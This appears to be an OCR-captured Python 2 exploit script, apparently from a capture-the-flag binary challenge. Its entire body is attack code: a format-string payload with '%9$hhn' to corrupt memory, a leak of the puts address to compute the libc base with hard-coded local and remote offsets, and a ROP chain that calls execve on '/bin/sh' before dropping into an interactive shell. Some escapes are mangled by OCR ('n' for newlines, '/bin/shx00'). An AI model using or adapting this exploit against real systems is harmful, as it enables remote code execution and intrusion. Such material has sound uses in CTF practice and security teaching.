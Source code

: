 ```
    #username += "%x.".ljust(8, '-')*10
    #username += "aa:"
    username = username.ljust(0xc0, 'a')
    username += 'a'*(0x66-0x43)
    username += "%9$hhn.".ljust(10, '-')
    #username += "%9$p.".ljust(10, '-')
   
    username = username.ljust(0x100-1, 'a')
   
    password = ""
    password += 'w' * 0x40
   
    io.read_until(":")
    io.writeline(username)
    io.read_until(":")
   
    #io.gdb_hint()
    io.writeline(password)
   
    io.read_until("")
    io.read_until("Login successful!n")
   
    io.read_until("n")
    data = io.read_until("n")
    print data
    puts_addr = l32(data[:4])
   
    offset_system = 0x3e800
    offset_execve = 0xB59F0
   
    #"""
    #remote
    offset_system = 0x3fe70
    offset_puts                = 0x64da0
    offset_execve = 0xB4EA0
    #"""
   
    libc_base = puts_addr - offset_puts
    system_addr = libc_base + offset_system
    execve_addr = libc_base + offset_execve
   
    payload = ""
    payload += l32(0x0)
    payload += gen_rop_data(execve_addr, [bss_addr+0x100, 0, 0])
    payload = payload.ljust(0x100, 'a')
    payload += "/bin/shx00"
    payload += l8(0x1f)
   
    io.gdb_hint()
    io.writeline(payload)
    io.interact()
   
   
 io = get_io(target)
 pwn(io)
```
